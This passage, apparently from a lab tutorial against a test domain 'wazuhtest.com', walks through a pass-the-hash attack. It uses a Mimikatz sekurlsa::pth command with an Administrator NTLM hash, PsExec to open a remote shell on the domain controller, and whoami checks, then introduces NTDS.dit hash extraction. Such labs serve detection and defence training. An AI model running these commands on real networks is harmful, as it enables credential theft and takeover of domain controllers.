 5. **Perform the Pass-the-Hash Attack:**

```powershell
mimikatz # sekurlsa::pth /user:Administrator /domain:wazuhtest.com /ntlm:<NTLM hash>
```

* Replace **<NTLM hash>** with the extracted hash of the **Administrator** account.
* This command opens a new command prompt authenticated as the target user without requiring the plaintext password.

![Pass-the-Hash Attack](/assets/image-20.png)

6. **Reconnect to the Domain Controller:**

```powershell
.\PsExec.exe \\windows-server.wazuhtest.com cmd
```

* Reattempt the connection to the domain controller.
* This time, the command should succeed, providing a remote shell with the privileges of the compromised domain administrator account.

![Successful Domain Controller Access](image-21.png)

7. **Verify the Session:**

```powershell
whoami
hostname
```

* Run these commands to confirm the current session is authenticated as the domain administrator, and you have successfully compromised the domain controller.

### 🔑 **5. NTDS.dit Password Extraction**

The **ntds.dit** file, located at \*\*C:\Windows\NTDS\*\*, is the Active Directory database on each domain controller. It stores critical directory data, including user credentials. Attackers can exploit this file to extract password hashes, allowing them to compromise user accounts without needing plaintext passwords. This attack typically follows an initial compromise, such as a **Pass-the-Hash** attack, to gain the necessary access to the domain controller’s file system.
